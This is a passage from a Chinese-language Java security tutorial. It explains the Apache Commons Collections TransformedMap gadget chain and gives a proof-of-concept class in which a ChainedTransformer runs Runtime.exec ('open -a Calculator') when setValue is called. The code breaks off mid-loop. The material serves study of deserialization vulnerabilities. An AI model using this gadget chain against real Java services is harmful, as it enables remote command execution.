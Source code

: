 当`TransformedMap`中的`put`或`putAll`方法被调用时，在其中会调用`transformKey`和`transformValue`方法，这两个方法中存在对输入对象的`transform`方法调用。

除了`put`或`putAll`方法外，当调用继承自`AbstractInputCheckedMapDecorator`类的`setValue`方法，在其中存在对`parent.checkSetValue`方法的调用，即调用`TransformedMap`中的`checkSetValue`方法，`checkSetValue`方法中同样存在对输入对象的`transform`方法调用。

```java
static class MapEntry extends AbstractMapEntryDecorator {

    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```

那么结合以上的`InvokerTransformer`类中的`transform`，当传入一个恶意的`ChainedTransformer`至`decorate`方法中，并执行`setValue`方法时，就会触发命令的执行。注意，`decorate`方法接收的第一个参数是一个 Map，但这个 Map 不可以为空，否则就会在`org.apache.commons.collections.map.AbstractMapDecorator#AbstractMapDecorator(java.util.Map)`中抛出异常。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class TransformedMapTest {
    public static void main(String[] args) {
        Transformer[] ts = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };

        Transformer tc = new ChainedTransformer(ts);

        Map m = new HashMap();
        m.put("x", "x");

        // 使用TransformedMap.decorate方法创建一个含有恶意调用链的Transformer类的Map对象
        Map tm =  TransformedMap.decorate(m, null, tc);

        // 执行put方法以触发transform方法的调用
        // tm.put("value", "value");

        // 遍历Map，调用setValue方法
        for (Object obj : tm.entrySet()) {
            Map.Entry entry = (Map.Entry) obj;

```